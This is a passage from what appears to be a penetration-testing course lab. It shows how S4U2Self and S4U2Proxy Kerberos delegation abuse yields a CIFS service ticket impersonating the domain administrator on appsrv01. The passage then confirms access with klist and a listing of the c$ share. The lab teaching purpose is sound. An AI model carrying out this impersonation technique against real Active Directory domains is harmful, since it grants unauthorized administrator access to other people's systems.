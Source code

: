 ```
[+] Ticket successfully imported!
```

> Listing 42 - Using S4U extension to request a TGS for appsrv01

After obtaining the TGT for the myComputer machine account, S4U2Self will then request a forwardable service ticket as the _administrator_ user to the myComputer computer account.

Finally, S4U2Proxy is invoked to request a TGS for the CIFS service on appsrv01 as the _administrator_ user, after which it is injected into memory.

To check the success of this attack, we'll first dump any loaded Kerberos tickets with klist.

```
PS C:\tools> klist

Current LogonId is 0:0x58e86

Cached Tickets: (1)

#0>     Client: administrator @ PROD.CORP1.COM
        Server: CIFS/appsrv01.prod.corp1.com @ PROD.CORP1.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/15/2020 11:43:27 (local)
        End Time:   4/15/2020 21:43:27 (local)
        Renew Time: 4/22/2020 11:43:27 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

> Listing 43 - Listing the service ticket to CIFS on APPSRV01

Now that we have a TGS for the CIFS service on appsrv01 as _administrator_, we can interact with file services on appsrv01 in the context of the _administrator_ domain admin user:

```
PS C:\tools> dir \\appsrv01.prod.corp1.com\c$

    Directory: \\appsrv01.prod.corp1.com\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         4/3/2020   7:17 AM                inetpub
d-----        7/16/2016   6:23 AM                PerfLogs
d-r---        4/14/2020   8:12 AM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-----        4/14/2020   8:13 AM                Tools
d-r---         4/3/2020   2:07 PM                Users
d-----         4/4/2020  10:31 AM                Windows
```

> Listing 44 - Verify CIFS access on APPSRV01
